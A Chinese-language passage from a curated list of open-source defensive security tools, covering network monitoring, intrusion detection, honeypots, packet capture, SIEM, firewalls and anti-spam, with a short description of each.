- Passivedns：比较好的网络安全工具之一，可以被动地收集DNS记录，以协助事件处理，网络安全监视(NSM)和常规数字取证。PassiveDNS会从接口嗅探流量或读取pcap文件，然后将DNS服务器响应输出到日志文件。PassiveDNS可以在内存中缓存/聚合重复的DNS应答，从而限制日志文件中的数据量，而不会丢失DNS响应中的信息。
- sagan：是一个多线程、实时系统和事件日志监视软件。Sagan使用了类似于Snort的规则集检测网络或系统中的危险事件。
- Node Security Platform：与Snyk功能相似，但在大多数情况下是免费的，而对于临时使用的用户来说非常划算。
- ntopng：是一个网络流量探测工具，是原ntop的下一代版本，ntop是基于Libpcap和它被写在一个可移植的方式来运行在UNIX平台上，MacOSX和Win32一样。
- Fibratus：是Windows内核漏洞跟踪和测试工具。它能够捕获大部分Windows内核活动-进程/线程创建和终止，文件系统I / O，注册表，网络活动，DLL加载/卸载等等。Fibratus有一个非常简单的CLI，它封装了用于启动内核流式事件处理收集器，设置内核事件过滤器或运行轻量级Python模块filters的工具。

## IDS / IPS /主机IDS /主机IPS

- Snort：是Martin Roesch于1998年创建的免费开放源代码网络入侵防御系统(NIPS)和网络入侵检测系统(NIDS)。Snort现在由Sourcefire开发，而Roesch是Sourcefire的创始人兼CTO。2009年，Snort作为“有史以来最伟大的开源软件之一”进入InfoWorld的开源榜单。
- Bro：是一个功能强大的网络分析工具，与您可能知道的典型IDS有很大不同。
- OSSEC：是一款开源的入侵检测系统。使用前需要花点时间了解它的工作原理。执行日志分析，文件完整性检查，策略监视，rootkit检测，实时警报和主动响应。它可以在大多数操作系统上运行，包括Linux，MacOS，Solaris，HP-UX，AIX和Windows。
- Suricata：是高性能的网络IDS，IPS和网络安全监视引擎。Suricata项目和代码由开放信息安全基金会(OISF)拥有和支持，OISF是一个非盈利基金会，致力于确保Suricata作为一个开源项目的开发和持续成功。
- Security Onion：是入侵检测系统，网络安全监视和日志管理的Linux发行版。它基于Ubuntu，包含Snort，Suricata，Bro，OSSEC，Sguil，Squit，Snorby，ELSA，Xplico，NetworkMiner和许多其他安全工具。镜像可以作为传感器分布在网络中，以监控多个VLAN和子网。
- sshwatch – SSH的IPS类似于用Python编写的DenyHosts。它还可以在日志中收集攻击期间攻击者的信息。
- Stealth：文件完整性检查程序。控制器从另一台计算机上运行，这使攻击者很难知道正在通过SSH以定义的伪随机间隔检查文件系统。强烈建议用于中小型部署。
- AIEngine：下一代交互式/可编程Python / Ruby / Java / Lua和Go网络入侵检测系统引擎，具有学习功能，无需人工干预，DNS域分类，垃圾邮件检测，网络收集器，网络取证等等。
- Denyhosts：DenyHosts是Python语言写的一个程序，它会分析sshd的日志文件(/var/log/secure)，当发现重 复的攻击时就会记录IP到/etc/hosts.deny文件，从而达到自动屏IP的功能。
- Fail2Ban：扫描系统日志文件并对显示恶意行为的IP采取措施。
- SSHGuard：用C语言编写的用于保护除SSH之外的服务的软件
- Lynis：是一个为系统管理员提供的 Linux和Unix的审计工具 。

## 蜜罐

- HoneyPy ：是一种中低互动的蜜罐。它易于实现：部署，使用插件扩展功能以及应用自定义配置。
- Dionaea：是nepenthes的继承者，将python作为脚本语言嵌入，使用libemu检测shellcode，支持ipv6和tls。
- Conpot：是一个部署在服务端的低交互ICS蜜罐，易于部署、修改和扩展。开发者通过提供一系列的通用工控协议，使得我们能够非常快速地在我们的系统上构建一套复杂的工控基础设施用于欺骗未知的攻击者。
- Amun：基于Amun Python的低交互蜜罐。
- Glastopf：是一个Web应用漏洞蜜罐软件，以从针对Web应用程序的攻击中收集数据。它可以对例如，结构化查询语言注入(SQLI)，远程代码执行(RCE)，本地文件包含(LFI )，远程文件包含(RFI)等攻击行为进行记录。
- Kippo：是一种中等交互性SSH蜜罐，旨在记录暴力攻击，最重要的是，记录攻击者执行的整个shell交互。
- Kojoney：是一个模拟SSH服务器的低交互蜜罐。守护进程是用Python编写的，使用Twisted Conch库。
- HonSSH：是一种高交互的蜜罐解决方案。HonSSH将位于攻击者和蜜罐之间，从而可以创建两个独立的SSH链接
- Bifrozt：是一个带有DHCP服务器的NAT设备，通常部署一个NIC直接连接到Internet，一个NIC连接到内部网络。Bifrozt与其他标准NAT设备的区别在于它能够在攻击者和蜜罐之间作为透明的SSHv2代理工作。
- HoneyDrive：是一款Linux蜜罐系统。它是以虚拟设备(OVA)的方式安装在Xubuntu 12.04.4版本上面。它包含10多个预安装和预配置的蜜罐软件，例如Kippo SSH honeypot，Dionaea、Amun malware honeypots，Honeyd low-interaction honeypot，Glastopf web honeypot，Wordpot，Conpot SCADA/ICS honeypot，Thug，PhoneyC honeyclients等。
- Cuckoo Sandbox：是一个开源软件，用于自动分析可疑文件。 为此，它使用自定义组件来监视恶意进程在隔离环境中运行时的行为。

## 抓包 工具

- tcpflow：是一个免费的，开源的，功能强大的基于命令行的工具，它捕获作为TCP连接(流)的一部分传输的数据，并以便于协议分析和调试的方式存储数据。
- Xplico：是一个从 pcap 文件中解析出IP流量数据的工具。可解析每个邮箱 (POP, IMAP, 和 SMTP 协议)，所有 HTTP 内容，VoIP calls (SIP) 等等。Xplico并不是网络协议分析器。Xplico是一个开源的网络取证分析工具(NFAT)。
- Moloch：是一个开源的大规模IPv4数据包捕获(PCAP)，索引和数据库系统。为PCAP浏览、搜索和导出提供了一个简单的web界面。公开了允许直接下载PCAP数据和JSON格式会话数据的api。简单的安全性是通过使用HTTPS和HTTP摘要密码支持来实现的，或者是通过在前面使用apache来实现的。Moloch并不打算取代IDS引擎，而是与它们一起工作，以标准PCAP格式存储和索引所有网络流量，提供快速访问。Moloch被构建成可以跨多个系统部署，并且可以扩展到处理多个千兆位/秒的流量。
- OpenFPC：是一组工具，它们结合在一起提供一个轻量级的全包网络流量记录器和缓冲系统。它的设计目标是允许非专业用户在COTS硬件上部署分布式网络流量记录器，同时集成到现有的警报和日志管理工具中。
- Dshell：是一个网络取证分析框架。支持插件的快速开发，以支持对网络数据包捕获的分析。
- stenographer：是一个全包捕获实用程序，用于将数据包缓冲到磁盘，以便进行入侵检测和事件响应。

## 嗅探 工具

- wirehark：是一个免费的开源数据包分析器。它用于网络故障排除，分析，软件和通信协议开发以及培训。Wireshark与tcpdump非常相似，但是具有图形化的前端，以及一些排序和过滤功能。
- netsniff-ng：是一个免费的Linux网络工具包，如果你愿意的话，它是你日常Linux网络管道的瑞士军刀。通过零复制机制实现其性能提升，因此在数据包接收和传输时，内核不需要将数据包从内核空间复制到用户空间，反之亦然。
- Live HTTP headers：是一个免费的firefox插件，可实时检测您的浏览器请求。它显示了请求的整个头部，并可用于查找实现中的安全漏洞。

## SIEM 工具

- Prelude：是一个通用的“安全信息和事件管理”(SIEM)系统。Prelude收集、规范、分类、聚合、关联和报告所有与安全相关的事件，而不依赖于导致此类事件的产品品牌或许可证;Prelude是“无代理”。
- OSSIM：是一个非常流行和完整的开源安全架构体系。OSSIM通过将开源产品进行集成，从而提供一种能够实现安全监控功能的基础平台。 它的目的是提供一种集中式、有组织的、能够更好地进行监测和显示的框架式系统。
- FIR：快速事件响应，一种网络安全事件管理平台。

## 快速数据包处理

- DPDK：是一组用于快速数据包处理的库和驱动程序。
- PFQ：是一款针对Linux操作系统的功能性框架，可帮助研究人员捕捉网络传输数据包(10G、40G及以上)，内核功能处理，内核绕过，以及获取多节点间的套接字/数据包。
- PF_RING：是一种新型的网络套接字，可显着提高数据包捕获速度。
- PF_RING ZC：是一个灵活的数据包处理框架，它允许您在任何数据包大小下实现1/10 Gbit线速数据包处理(RX和TX)。它实现了零复制操作，包括用于进程间和VM间(KVM)通信的模式。
- PACKET_MMAP / TPACKET / AF_PACKET：在Linux中使用PACKET-MMAP可以提高捕获和传输过程的性能。
- Netmap：高性能网络I/O框架。连同其配套的VALE软件开关，它被实现为单个内核模块，并且可用于FreeBSD，Linux以及现在的Windows。

## 防火墙

- pfSense：是一个基于FreeBSD，专为防火墙和路由器功能定制的开源版本。它被安装在计算机上作为网络中的防火墙和路由器存在，并以可靠性著称，且提供往往只存在于昂贵商业防火墙才具有的特性。它可以通过WEB页面进行配置，升级和管理而不需要使用者具备FreeBSD底层知识。pfSense通常被部署作为边界防火墙，路由器，无线接入点，DHCP服务器，DNS服务器和VPN端点。
- OPNsense：是一个开源易用，而且易于构建的基于 FreeBSD 的防火墙和路由平台。包括大多数商业防火墙的特性。提供功能完整却易用的 GUI 管理界面。
- fwknop：通过防火墙中的单数据包授权保护端口。

## 反垃圾邮件

- SpamAssassin：一种强大且流行的电子邮件垃圾邮件过滤器，采用了多种检测技术。这款反垃圾工具是许多商业产品背后的"秘密武器(secret sauce)",同时,很多的电子邮件服务商和垃圾过滤(工具)提供商都在使用它。